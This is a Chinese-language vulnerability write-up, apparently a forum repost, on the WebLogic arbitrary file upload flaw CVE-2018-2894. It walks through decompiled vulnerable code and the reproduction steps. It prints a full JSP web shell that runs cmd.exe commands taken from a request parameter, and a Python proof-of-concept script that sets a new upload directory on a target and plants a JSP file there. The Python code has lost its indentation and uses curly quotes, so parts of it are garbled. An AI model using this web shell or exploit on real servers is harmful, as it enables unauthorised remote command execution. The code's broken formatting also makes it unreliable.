



# （CVE-2018-2894）WebLogic任意文件上传

> 原文：[https://www.zhihuifly.com/t/topic/3226](https://www.zhihuifly.com/t/topic/3226)

# （CVE-2018-2894）WebLogic任意文件上传

## 一、漏洞简介

**利用条件**：需要知道部署应用的web目录

## 二、漏洞影响

漏洞影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3

## 三、复现过程

### 漏洞分析

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/setting/TestClientWorkDirManager.class:59:

```
public void changeWorkDir(String path) {
    String[] oldPaths = this.getRelatedPaths();
    if (this.testPageProvider.getWsImplType() == ImplType.JRF) {
        this.isWorkDirChangeable = false;
        this.isWorkDirWritable = isDirWritable(path);
        this.isWorkDirChangeable = true;
        this.setTestClientWorkDir(path);
    } else {
        this.persistWorkDir(path);
        this.init();
    }
    if (this.isWorkDirWritable) {
        String[] newPaths = this.getRelatedPaths();
        moveDirs(oldPaths, newPaths);
    } else {
        Logger.fine("[INFO] Newly specified TestClient Working Dir is readonly. Won't move the configuration stuff to new path.");
    }
} 
```

此函数用于改变工作目录，但其中并未做任何检测。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/res/SettingResource.class:181中：

```
@Path("/keystore")
@POST
@Produces({"application/xml", "application/json"})
@Consumes({"multipart/form-data"})
public Response editKeyStoreSettingByMultiPart(FormDataMultiPart formPartParams) {
    if (!RequestUtil.isRequstedByAdmin(this.request)) {
        return Response.status(Status.FORBIDDEN).build();
    } else {
        if (TestClientRT.isVerbose()) {
            Logger.fine("calling SettingResource.addKeyStoreSettingByMultiPart");
        }
        String currentTimeValue = "" + (new Date()).getTime();
        KeyValuesMap<String, String> formParams = RSDataHelper.getInstance().convertFormDataMultiPart(formPartParams, true, TestClientRT.getKeyStorePath(), currentTimeValue);
        ....
    }
} 
```

跟入ws-testpage-impl.jar!/com/oracle/webservices/testclient/core/ws/cdf/config/parameter/TestClientRT.class:31

```
public static String getKeyStorePath() {
    return getConfigDir() + File.separator + "keystore";
} 
```

得到要写入的路径storePath。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/util/RSDataHelper.class:145:

```
public KeyValuesMap<String, String> convertFormDataMultiPart(FormDataMultiPart formPartParams, boolean isExtactAttachment, String path, String fileNamePrefix) {
    ...
    if (attachName != null && attachName.trim().length() > 0) {
        if (attachName != null && attachName.trim().length() != 0) {
            attachName = this.refactorAttachName(attachName);
            if (fileNamePrefix == null) {
                fileNamePrefix = key;
            }
            String filename = (new File(storePath, fileNamePrefix + "_" + attachName)).getAbsolutePath();
            kvMap.addValue(key, filename);
            if (isExtactAttachment) {
                this.saveAttachedFile(filename, (InputStream)bodyPart.getValueAs(InputStream.class));
            }
        }
    } 
    ...
} 
```

把上传文件的内容传到了storePath目录里，文件名满足fileNamePrefix + "_" + attachName。这过程没有任何过滤和检查：）…

ws_utc/config.do在开发模式下无需认证，在生产模式下需要认证。具体可见Oracle® Fusion Middleware Administering Web Services

### 漏洞复现

下载地址：**http://download.oracle.com/otn/nt/middleware/12c/12213/fmw_12.2.1.3.0_wls_quick_Disk1_1of1.zip**

服务启动后，访问 http://localhost:7001/ws_utc/config.do



可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war 
```

选择右边的安全栏目，添加JKS Keystores上传文件。假设chybeta.jsp内容如下：

```
<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<br>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML> 
```

抓包获取到时间戳为1531987145013，则上传到的位置即config\keystore\1531987145013_chybeta.jsp



访问http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp



### poc

```
cve-2018-2894_poc_exp.py 
```

```
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

import re

import sys

import time

import argparse

import requests

import traceback

import xml.etree.ElementTree as ET

def get_current_work_path(host):

geturl = host + “/ws_utc/resources/setting/options/general”

ua = {‘User-Agent’: ‘Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0’}

values = []

try:

request = requests.get(geturl)

if request.status_code == 404:

exit("[-] {}  don’t exists CVE-2018-2894".format(host))

elif “Deploying Application”.lower() in request.text.lower():

print("[*] First Deploying Website Please wait a moment …")

time.sleep(20)

request = requests.get(geturl, headers=ua)

if “</defaultValue>” in request.content:

root = ET.fromstring(request.content)

value = root.find(“section”).find(“options”)

for e in value:

for sub in e:

if e.tag == “parameter” and sub.tag == “defaultValue”:

values.append(sub.text)

except requests.ConnectionError:

exit("[-] Cannot connect url: {}".format(geturl))

if values:

return values[0]

else:

print("[-] Cannot get current work path\n")

exit(request.content)

def get_new_work_path(host):

origin_work_path = get_current_work_path(host)

works = “/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css”

if “user_projects” in origin_work_path:

if “\” in origin_work_path:

works = works.replace("/", “\”)

current_work_home = origin_work_path[:origin_work_path.find(“user_projects”)] + “user_projects\domains”

dir_len = len(current_work_home.split("\"))

domain_name = origin_work_path.split("\")[dir_len]

current_work_home += “\” + domain_name + works

else:

current_work_home = origin_work_path[:origin_work_path.find(“user_projects”)] + “user_projects/domains”

dir_len = len(current_work_home.split("/"))

domain_name = origin_work_path.split("/")[dir_len]

current_work_home += “/” + domain_name + works

else:

current_work_home = origin_work_path

print("[*] cannot handle current work home dir: {}".format(origin_work_path))

return current_work_home

def set_new_upload_path(host, path):

data = {

“setting_id”: “general”,

“BasicConfigOptions.workDir”: path,

“BasicConfigOptions.proxyHost”: “”,

“BasicConfigOptions.proxyPort”: “80”}

request = requests.post(host + “/ws_utc/resources/setting/options”, data=data, headers=headers)

if “successfully” in request.content:

return True

else:

print("[-] Change New Upload Path failed")

exit(request.content)

def upload_webshell(host, uri):

set_new_upload_path(host, get_new_work_path(host))

files = {

“ks_edit_mode”: “false”,

“ks_password_front”: password,

“ks_password_changed”: “true”,

“ks_filename”: (“360sglab.jsp”, upload_content)

}

```
request = requests.post(host + uri, files=files)
response = request.text
match = re.findall("&lt;id&gt;(.*?)&lt;/id&gt;", response)
if match:
    tid = match[-1]
    shell_path = host + "/ws_utc/css/config/keystore/" + str(tid) + "_360sglab.jsp"
    if upload_content in requests.get(shell_path, headers=headers).content:
        print("[+] {} exists CVE-2018-2894".format(host))
        print("[+] Check URL: {} ".format(shell_path))
    else:
        print("[-] {}  don't exists CVE-2018-2894".format(host))
else:
    print("[-] {}  don't exists CVE-2018-2894".format(host)) 
```

if **name** == “**main**”:

start = time.time()

password = “360sglab”

url = “/ws_utc/resources/setting/keystore”

parser = argparse.ArgumentParser()

parser.add_argument("-t", dest=‘target’, default=“[http://127.0.0.1:7001](http://127.0.0.1:7001)”, type=str,

help=“target, such as: [http://example.com:7001](http://example.com:7001)”)

```
upload_content = "360sglab test"
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'X-Requested-With': 'XMLHttpRequest', }

if len(sys.argv) == 1:
    sys.argv.append('-h')
args = parser.parse_args()
target = args.target

target = target.rstrip('/')
if "://" not in target:
    target = "http://" + target
try:
    upload_webshell(target, url)
except Exception as e:
    print("[-] Error: \n")
    traceback.print_exc() 
``` 
```